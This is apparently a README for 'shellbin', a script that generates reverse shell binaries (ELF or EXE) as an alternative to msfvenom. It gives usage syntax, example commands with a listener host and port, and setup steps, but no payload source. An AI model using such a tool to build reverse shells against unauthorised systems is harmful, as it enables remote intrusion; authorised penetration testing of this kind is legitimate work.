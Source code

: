 # shellbin
Auto Reverse Shell Binary Generator

if you can't use msfvenom, maybe this script is so usefuly.

they can generate as elf or exe format with out msfvenom

Usage:

     shellbin <lhost> <lport> <format>

Example:

     ./shellbin 192.168.0.4 1337 exe
     ./shellbin 192.168.0.4 1337 elf

SetUp:
  
     if root user      :  python3 setup.py
     if not a root user:  sudo python3 setup.py

Require:

     python3.x
     mingw 


Auto generate as "shell.c" "shell.cpp" and "shell.elf" "shell.exe"
So becareful to current files name on working directory 
